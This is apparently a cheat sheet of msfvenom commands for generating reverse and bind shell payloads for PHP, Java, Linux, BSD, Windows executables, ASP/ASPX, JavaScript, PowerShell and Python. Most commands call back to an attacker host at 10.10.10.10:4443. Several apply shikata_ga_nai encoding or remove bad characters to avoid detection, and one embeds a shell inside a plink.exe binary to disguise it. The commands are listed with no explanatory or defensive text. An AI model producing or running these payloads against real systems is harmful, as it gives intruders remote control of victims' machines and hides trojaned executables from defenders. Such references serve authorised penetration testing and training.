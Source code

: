 ### PHP reverse shell  
```msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php```

### Java WAR reverse shell  
```msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war```

### Linux bind shell  
```msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai```

### Linux FreeBSD reverse shell  
```msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf```

### Linux C reverse shell  
```msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c```

### Windows non staged reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe```

### Windows Staged (Meterpreter) reverse shell  
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe```

### Windows Python reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py```

### Windows ASP reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp```

### Windows ASPX reverse shell
```msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx```

### Windows JavaScript reverse shell with nops  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18```

### Windows Powershell reverse shell  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1```

### Windows reverse shell excluding bad characters  
```msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai```

### Windows x64 bit reverse shell  
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe```

### Windows reverse shell embedded into plink  
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe```
